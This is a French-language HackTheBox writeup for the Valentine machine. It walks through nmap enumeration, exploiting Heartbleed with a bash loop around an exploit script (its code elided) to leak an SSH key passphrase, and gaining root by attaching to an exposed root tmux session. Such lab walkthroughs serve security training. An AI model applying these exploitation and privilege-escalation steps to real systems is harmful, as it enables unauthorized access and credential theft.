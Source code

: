 ```yaml
---
title: "Valentine.htb"
date: 2025-08-04
draft: false
showToc: true
tags: ["HTB", "CTF", "Heartbleed", "Tmux", "Linux"]
categories: ["HackTheBox", "Easy"]
---
```

> **Résumé** — Exploitation de Heartbleed (CVE-2014-0160) pour récupérer un mot de passe, déchiffrer une clé SSH, puis escalader via une session tmux root oubliée.

{{< tagsline >}}

## Introduction
Writeup complet de la machine Valentine.htb (retired), incluant Heartbleed, extraction de clé SSH et escalade de privilèges via tmux

---

{{< figure src="image.png" alt="Valentine.htb" caption="Page principale" >}}


<br>

{{< figure src="difficulty.png" alt="Users Rating" caption="Notation de la machine" >}}

<br>


##  Énumération

### Scan initial

```bash
nmap -sC -sV -p- valentine.htb
```

Ports ouverts :

- 22/tcp → OpenSSH 6.6.1
- 80/tcp → Apache 2.2.22 (Ubuntu)

Le site web révèle une interface avec des champs `encode`/`decode`, probablement base64.

```bash
curl http://valentine.htb
```

La page `/dev` contient deux fichiers intéressants :

- `hype_key`
- `notes.txt`

### Analyse initiale

Le fichier `notes.txt` donne un indice sur l’encodeur/décodeur :

> Don't use the decoder/encoder until any of this is done.

Cela laisse penser que des failles côté client sont en jeu, mais sans encoder JS actif, rien d’immédiat.

Le fichier `hype_key` semble être un dump hexadécimal d'une clé SSH privée (confirmé par `file`).

```bash
file hype_key
# ASCII text, with very long lines
```

Contenu analysé : ce n’est pas une image, ni du base64. Probablement une clé SSH.

---

## Exploitation - Prise Pied

### Heartbleed (CVE-2014-0160)
Le port 443 est actif, et un scan `nmap` confirme la vulnérabilité Heartbleed :

```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Résultat :

```
State: VULNERABLE
Risk factor: High
```

###  Script utilisé : `heartbleed_full.sh`

```bash
#!/bin/bash
# Usage: ./heartbleed_full.sh
# Ce script exécute plusieurs fois l’exploit Heartbleed et extrait les chaînes ASCII

read -p "🔢 Nombre d'itérations Heartbleed à exécuter : " count
mkdir -p dumps
rm -f dumps/out_*.txt ascii_concatenated.txt

for i in $(seq -f "%03g" 1 $count); do
    echo "➡️  [Iteration $i]..."
    python2 heartbleed-exploit.py valentine.htb --output dumps/out_$i.txt --ascii
done

echo -e "
🧪 Extraction des chaînes ASCII avec strings..."
strings dumps/out_*.txt | grep -E '[[:print:]]{4,}' | sort -u > ascii_concatenated.txt
echo -e "
✅ Terminé : toutes les chaînes ASCII concaténées dans ascii_concatenated.txt"
```

### Script Python : `heartbleed-exploit.py`

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Heartbleed exploit par Martial Puygrenier adapté pour extraire ASCII

# (… contenu abrégé, voir pièce jointe pour le fichier complet …)
```

Exécution du script :

```bash
./heartbleed_full.sh
```

Résultat : dans `ascii_concatenated.txt`, on récupère :

```
heartbleedbelievethehype
```

Mot de passe pour la clé SSH.

---

### Clé SSH — Récupération

Convertir le fichier `hype_key` en binaire :

```bash
xxd -r -p hype_key hype_key.pem
```

Déchiffrer avec OpenSSL :

```bash
openssl rsa -in hype_key.pem -out hype_key_decrypted.pem
```

Utilisation :

```bash
ssh -i hype_key_decrypted.pem hype@valentine.htb
```

---

## Escalade de privilèges

Après avoir obtenu un shell SSH en tant que l’utilisateur `hype`, j’ai lancé un classique :

```bash
linpeas.sh
```

💡 **LinPEAS** a mis en évidence la présence d’un processus tmux tournant en tant que root, avec cette ligne intrigante :

```bash
root   1040  0.0  0.1  26416  1672 ?  Ss  01:24   0:00 /usr/bin/tmux -S /.devs/dev_sess
```

### Analyse

Le socket tmux (`-S /.devs/dev_sess`) est accessible (lecture/exécution) par l’utilisateur `hype`.

Le processus appartient à `root`, ce qui signifie que la session associée pourrait être `root` attachée !

### Tentatives manuelles

Liste des sessions disponibles :

```bash
tmux -S /.devs/dev_sess ls
```

Connexion à la session existante :

```bash
tmux -S /.devs/dev_sess attach
```

###  Et là, bingo !

J’ai accédé à une session interactive **root** encore ouverte. Probablement laissée là par un admin négligent, ou par un script de debug.

###  Preuve

```bash
root@Valentine:/# id
uid=0(root) gid=0(root) groups=0(root)
```



## Les Flags

```bash
cat /home/hype/user.txt
cat /root/root.txt
```

---

## Pièces jointes

- [heartbleed_full.sh](files/heartbleed_full.sh)
- [heartbleed-exploit.py](files/heartbleed-exploit.py)

##  Conclusion

Cette machine montre l’impact réel d’une vulnérabilité critique comme Heartbleed. Avec un peu de persévérance, on remonte jusqu’à une clé SSH, puis une élévation de privilèges via une session `tmux` oubliée.

---

{{< admonition type="tip" title="Astuce" >}}
Toujours vérifier tous les couples `user:pass` en SSH, même s’ils semblent destinés au web.
{{< /admonition >}}

{{< admonition type="warning" title="Tri des dumps" >}}
Garde un fichier concaténé `strings | sort -u` + horodatage pour la reproductibilité.
{{< /admonition >}}

